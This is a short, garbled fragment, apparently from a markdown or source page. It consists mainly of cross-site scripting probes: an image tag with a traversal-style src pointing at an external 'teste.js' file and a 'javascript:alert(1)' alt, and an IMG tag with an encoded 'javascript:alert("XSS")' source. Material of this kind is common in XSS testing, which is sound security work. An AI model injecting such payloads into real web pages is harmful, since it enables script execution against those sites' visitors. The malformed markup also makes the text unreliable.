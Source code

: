 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<IMG SRC= javascript%3aalert(&quot;XSS&quot;) >
  
](()
